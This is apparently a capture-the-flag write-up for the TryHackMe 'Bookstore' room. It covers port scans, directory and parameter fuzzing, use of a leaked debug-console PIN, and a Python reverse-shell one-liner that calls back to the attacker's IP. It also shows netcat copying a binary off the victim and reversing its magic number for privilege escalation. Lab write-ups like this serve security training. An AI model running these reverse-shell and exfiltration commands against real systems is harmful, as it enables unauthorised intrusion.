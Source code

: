 # Bookstore

**Room Link:** [https://tryhackme.com/room/bookstoreoc](https://tryhackme.com/room/bookstoreoc)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (732).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (733).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>





## TCP/5000 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:5000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>



console is locked by a pin, we will have to come back to it.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wfuzz -c -f bookstore.txt -u "http://10.10.237.140:5000/api/v1/resources/books?FUZZ=.bash_history" -w /usr/share/wordlists/SecLis
ts/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404
```



## Initial Shell

We bow have the pin for console 123-321-135

<figure><img src="../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Console**

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.43.15",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





## Privilege Escalation



<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > try-harder
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < try-harder
```

### Ghidra

We find how the magic number is made.

**Kali**

```
ghidra
```



<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

We can just quickly use python to solve the answer

**Kali**

```
python
1573724660 ^ 0x5db3 ^ 0x1116
```

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
./try-harder 
Answer: 1573743953
```

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>



